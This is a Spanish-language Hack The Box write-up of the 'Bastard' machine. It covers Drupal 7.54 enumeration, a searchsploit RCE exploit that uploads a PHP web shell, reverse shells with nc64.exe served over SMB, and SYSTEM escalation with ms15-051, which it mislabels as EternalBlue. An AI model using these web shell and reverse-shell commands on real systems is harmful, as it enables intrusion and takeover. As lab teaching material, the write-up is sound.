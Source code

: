 ```yaml
---
layout: post
title: Bastard
date: 2022-11-17
categories: ["HTB", "Enumeration", "Drupal", "RCE", "EternalBlue"]
thumbnail: "assets/images/Bastard.png"
---
```


# Bastard [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.9 -oG allPorts`
- `nmap -sCV -p80,135 10.10.10.9 -oN targeted`

`NMAP` nos dice la versión de `Drupal`, en este caso `7`.

### Inspección

Vemos que `NMAP` (además de la versión de `Drupal`) nos dice que el archivo `robots.txt` existe, así que vamos a verlo y vemos un `TXT` llamado `CHANGELOG.txt`, al abrirlo podemos ver (como su nombre indica) los cambios realizados a `Drupal`, vemos que la versión que tienen instalada es la `7.54`, lanzada día uno de febrero del 2017.

```
Drupal 7.54, 2017-02-01
-----------------------

- Modules are now able to define theme engines (API addition:
https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
(API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

Con SearchSploit buscamos por `Drupal` y nos aparecen muchos `exploits`, pero vemos uno que sirve para todas las versiones de `Drupal 7`, por lo que usaremos ese.

```
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```

Para poder copiarlo en el directorio en el que estamos usaremos el parámetro `-m` y especificaremos la ruta, en este caso: `exploits/php/webapps/41564.php`

- `searchsploit -m exploits/php/webapps/41564.php`

Vemos que el `script` requiere de dos cosas, la `URL` y la ruta `endpoint`, para obtener la ruta usaremos [`DirSearch`](https://github.com/maurosoria/dirsearch), una herramienta que nos ayudará a encontrar directorios y archivos. Lo bueno de [`DirSearch`](https://github.com/maurosoria/dirsearch) es que ya tiene implementado un diccionario propio con las rutas y archivos más importantes y comunes.

Con esto claro procederemos a ejecutar la herramienta, el parámetro `-e` es para especificar la extensión, en este caso `PHP` aunque también encontrará rutas. El parámetro `-x` es para excluir códigos de estado y, por último, el parámetro `-t`, que sirve para especificar la cantidad de hilos a utilizar.

```
dirsearch.py -u "http://10.10.10.9/" -e php -x 403,404 -t 50
```

```
_|. _ _ _ _ _ _|_ v0.3.
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 50 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-19-03-07_11-06-02.log

Target: http://10.10.10.9/

[...]
[12:02:32] 200 - 2KB - /robots.txt
[12:02:37] 200 - 62B - /rest/
[...]

Task Completed
```

Como vemos hemos encontrado una ruta con el nombre `rest`, la cual si le enviamos una petición nos sale lo siguiente:

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Bien! Ya tenemos todos los requisitos para poder explotarlo! Aunque antes tenemos que cambiar algunos parámetros del archivo `PHP` antes descargado.

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
'filename' => 'black.php',
'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Vemos que el parámetro `data` es algo extraño, lo puse así para una vez creado el archivo `PHP` pasarle (con el parámetro `cmd`) el comando para ejecutarlo a nivel de sistema.

Bien! Ahora podemos ejecutar el archivo con `php` para que nuestro archivo malicioso se suba.

- `php 41564.php`

```
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/black.php
```

- `curl http://10.10.10.9/black.php?cmd=whoami`

```
nt authority\iusr
```

### Shell

Bien! Ahora que ya podemos ejecutar comandos a nivel de sistema de una forma más cómoda podemos utilizar [`smbserver.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) del repositorio [`Impacket`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) para subir el `EXE` de `NC` y así poder entablarnos una conexión, ya que si tratamos de mandar una petición normal no nos dejará.

- `smbserver.py black .`
- `rlwrap -cAr nc -nlvp 4444`

Una vez hayamos creado el servidor `SMB` y habernos puesto en escucha por el puerto que nosotros queramos podemos visitar la siguiente `URL`:

```
http://10.10.10.9/black.php?cmd=\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.9 4444
```
Bien! Ya estamos dentro de la máquina como `IUSR`!

### Subida de privilegios

Estupendo, ya estamos en la máquina, pero queremos ser administradores, así que comencé por enumerar el sistema con systeminfo y me fijé que era `Windows Server 2008`, por lo que estaba bastante desactualizado.

Tras hacer una pequeña búsqueda encontré que era vulnerable a `EternalBlue`, así que para explotarlo me descargué un ZIP del repositorio [`Windows Kernel Exploit`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051), el cual contenía un archivo `EXE` llamado `ms15-051x64.exe`.

Antes de nada me gustaría probar si funciona, así que me montaré el servidor de nuevo.

- `smbserver.py black .`

```
PS C:\inetpub\drupal-7.54> \\10.10.14.15\black\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3012 created.
==============================
nt authority\system
```

Funciona! De nuevo utilizaré el servidor `SMB` para transferir el archivo a la máquina víctima y, con `NC`, entablarnos una Reverse Shell. Por lo que nos ponemos en escucha por el puerto que queramos con `NC`.

- `rlwrap -cAr nc -nlvp 443`

```
C:\inetpub\drupal-7.54>\\10.10.14.15\black\ms15-051x64.exe
"\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.15 443"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1612 created.
==============================
```
Enhorabuena! Hemos recibido la Reverse Shell y ya somos administradores de la máquina!
